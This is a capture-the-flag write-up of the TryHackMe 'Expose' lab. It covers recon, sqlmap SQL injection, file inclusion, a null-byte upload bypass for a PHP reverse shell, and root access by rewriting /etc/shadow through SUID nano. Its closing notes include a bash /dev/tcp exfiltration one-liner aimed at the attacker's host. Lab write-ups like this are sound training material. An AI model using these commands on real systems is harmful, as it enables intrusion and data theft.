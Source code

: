 # Expose
**Completed 02/04/2024** 

https://tryhackme.com/room/expose

**Devices:** 
My Kali VM: 10.6.23.137 
Expose VM: 10.10.209.238 

**Flags:** 
1. /home/zeamkish/flag.txt: THM{USER_FLAG_1231_EXPOSE}
2. /root/flag.txt: THM{ROOT_EXPOSED_1001}

# **Recon**
## nmap 
- Ran `nmap -sT -p- 10.10.209.238` to check open ports
	- -p- checks all ports (1-65535)
- Found ports 21, 22, 53, 1337, and 1883 open
- Refining the scan with `nmap -sT -sV -p 21,22,53,1337,1883 10.10.209.238` reveals running services
- Port 1337/tcp is running an Apache web server
## gobuster
- Running `gobuster dir -u http://10.10.209.238:1337 -w /usr/share/wordlists/dirb/big.txt` gives initial URLs to check
- Found `/admin_101`, `/admin`, and `/phpmyadmin` from the scan

# **User Flag**
- Navigating to `http://10.10.209.238:1337/admin_101` reveals a login form with the email already filled in as `hacker@root.thm`
## SQL Injection
- The CTF specifically lists sqlmap as a provided tool, so let's check for SQLi vulnerabilities
- We submit a random password and capture the request in Burp Suite for analysis
- Right click > Save item, save in challenge folder as `req` (or any other name)
### sqlmap
- Run `sqlmap -r req --dump` to automatically run a scan using info from the request itself
- Say yes to limiting tests to MySQL-specific ones only
- When a hashed password is found, say yes to brute forcing it, revealing the password `easytohack`
- ASCII tables will be output near the end showing the located information from the SQLi attacks
- `/file1010111/index.php` uses `easytohack` as its password
- `/upload-cv00101011/index.php` requires a username starting with Z
## Query Parameter Injection
- Upon visiting `/file1010111/index.php` we are told to fuzz for parameters
- Checking the page source, there is a hint to use `file` or `view` as GET parameters
- If we add `?file=/etc/passwd` to the end of the URL, the contents are output on the page, revealing a user named `zeamkish`
- We can now go to `/upload-cv00101011/index.php` and provide the password of `zeamkish`
## PHP Reverse Shell
### Uploading the reverse shell
- There is a file upload prompt, and checking the page source reveals that only .png and .jpg files are accepted. We want a PHP Reverse Shell, so it's time to experiment
- Uploading a normal .png file leads to a page telling us to check the page source for the location that it was uploaded to, which is provided as `/upload_thm_1001`
- Navigating to `/upload-cv00101011/upload_thm_1001` reveals a file tree including the uploaded image, which we can view
- Next, I made a copy of `/usr/share/webshells/php/php_reverse_shell.php` (PHP Reverse Shell) in my CTF directory, and renamed it to `shell.phpD.png`
	- I set the target IP to my own and the port to 53 since it is unlikely to be blocked by outbound firewalls
	- I chose the file for upload, set Burp Suite proxy to intercept, and clicked the upload button
	- With the request in Burp Suite, I replaced the 'D' in the file name with a null byte (hex 00, ignoring the .png afterwards), and forwarded the request along
	- The file uploads successfully, and it is visible in `/upload_thm_1001`
### Using the reverse shell
- I set up a listener with `nc -lvnp 53`, then clicked on the `shell.php` file on the page
	- The reverse shell runs and netcat catches the connection, giving us shell access
	- I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'`, upgrading to a better shell environment
	- Running `whoami` reveals that I am currently the www-data user
## Getting the flag
- `ls /home/zeamkish` reveals two files: `flag.txt` and `ssh_cred.txt`
- flag.txt is inaccessible to this user, but ssh_cred.txt reveals the SSH password for zeamkish is `easytohack@123`
- With credentials in hand, I ran `ssh zeamkish@10.10.209.238` and logged into the zeamkish user account
    - `cat flag.txt` reveals the first flag, THM{USER_FLAG_1231_EXPOSE}
    
# **Root Flag**
## Privilege Escalation
- The only remaining flag is the root flag, so privilege escalation is necessary
    - `find / -perm -04000 -type f -ls 2>/dev/null` reveals programs that have their SUID set in useful ways
    - nano is in the list, which means we can both read _and write_ files with root privileges
    - I used `nano /etc/shadow` to check that I could edit a file outside of zeamkish's privileges, and it opened successfully
### Injecting a new password hash
- A rather aggressive method if privilege escalation in this case is to use openssl to create a new salted root password and insert it into `/etc/shadow`
    - Running `openssl passwd -1 -salt root 1234` outputs `$1$root$.fAWE/htZAqQge.bvM16O/`
    - We can use nano to open the shadow file again, replacing everything after "root:" and before ":xxxxx:0:xxxxx:x ::::" with the new value
- The root user now has the password `1234`, so we can login easily
    - I ran `su root` and entered the new password, logging in successfully
    - I was now under `/root/` and could use `cat flag.txt` to reveal the final flag, THM{ROOT_EXPOSED_1001}


# **Lessons Learned**
- Use `-p-` and different scan modes with nmap to ensure all relevant ports are located
    - I did not find port 1337 initially, which led me on a useless path trying to do something with FTP on port 21
    - Remember to also use `-sV` with specific ports of interest afterwards to enumerate running services
     - 
- Remember to use gobuster or other directory enumeration tools to check subdirectories after the root scan
    - May not find much of interest, may add tons of useful info
    - 
- Using Burp Suite to intercept all kinds of requests can come in handy
    - At the very least, it allows requests to be analyzed for anything unusual or exploitable
    - A saved request can be used to run sqlmap extremely easily
    - If a file uploader only accepts certain file extensions and we want to upload a malicious payload, name the file as `<name>`.`<invalid_ext>`X`valid_ext` (i.e. `shell.phpX.png`), intercept the HTTP POST request, set the X to a null byte (hex code 00), then forward it
	 - 
	
- Use [gtfobins](https://gtfobins.github.io/) to find privilege escalation vectors
    - Base searches off of output of `find / -perm -04000 -type f -ls 2>/dev/null`
    - If nano is in that list, you get the power to change anything you want
	- 
- Basic data exfiltration can be done through Bash
    - Set up a listener on port 80 with `nc -lvnp 80 > FILENAME` on the local machine (or proxy, whatever you have access to for exfiltration)
    - Run `bash -c 'echo -e "POST / HTTP/0.9\n\n$(<flag.txt)" > /dev/tcp/RHOST/RPORT` on the compromised machine
	    - (`RHOST` = 10.6.23.137 and `RPORT` = 80 in this case)
    - The target will send the file data as the body of an HTTP POST request, which your netcat listener receives and outputs to a new local file